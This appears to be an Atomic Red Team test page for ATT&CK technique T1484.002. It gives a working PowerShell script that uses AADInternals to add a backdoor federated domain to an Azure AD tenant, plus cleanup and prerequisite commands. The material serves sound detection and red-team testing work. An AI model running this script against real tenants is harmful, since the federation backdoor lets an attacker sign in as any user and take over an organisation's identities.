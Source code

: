 ```yaml
---
tags: [T1484_002, atomic_test]
filename: "[[T1484.002|T1484.002 - Domain Trust Modification]]"
---
```

# T1484.002 - Domain Trust Modification

## Atomic Test #1 - Add Federation to Azure AD
Add a new federated domain to Azure AD using PowerShell.
The malicious domain to be federated must be configured beforehand (outside of the scope of this test):
    1. Open Azure Portal
    2. Add a new "custom domain name"
    3. Verify the domain by following instructions (i.e. create the requested DNS record)

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | string | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | string | iamthebatman|
| domain_name | Malicious federated domain name | string | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureAD
Import-Module AADInternals

$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword

try {
  Connect-AzureAD -Credential $Credential -ErrorAction Stop > $null
}
catch {
  Write-Host "Error: AzureAD could not connect"
  exit 1
}

try {
  $domain = Get-AzureADDomain -Name "#{domain_name}"
}
catch {
  Write-Host "Error: domain ""#{domain_name}"" not found"
  exit 1
}
if (-Not $domain.IsVerified) {
  Write-Host "Error: domain ""#{domain_name}"" not verified"
  exit 1
}

if ($domain.AuthenticationType -eq "Federated") {
  Write-Host "Error: domain ""#{domain_name}"" already federated. Try with a different domain or re-create it before."
  exit 1
}

$at = Get-AADIntAccessTokenForAADGraph -Credentials $Credential
if (-Not $at) {
  Write-Host "Error: AADInternals could not connect"
  exit 1
}

$new = ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "#{domain_name}"
if ($new) {
  Write-Host "Federation successfully added to Azure AD"
  Write-Host $new
}
else {
  Write-Host "The federation setup failed"
}

Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
try {
  Import-Module AzureAD -ErrorAction Ignore

  $PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
  Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

  Remove-AzureADDomain -Name "#{domain_name}" -ErrorAction Ignore
} catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureAD and AADInternals Powershell modules must be installed.
##### Check Prereq Commands:
```powershell
if ((Get-Module -ListAvailable -Name AzureAD) -And (Get-Module -ListAvailable -Name AADInternals)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
Install-Module -Name AADInternals -Force
```




<br/>
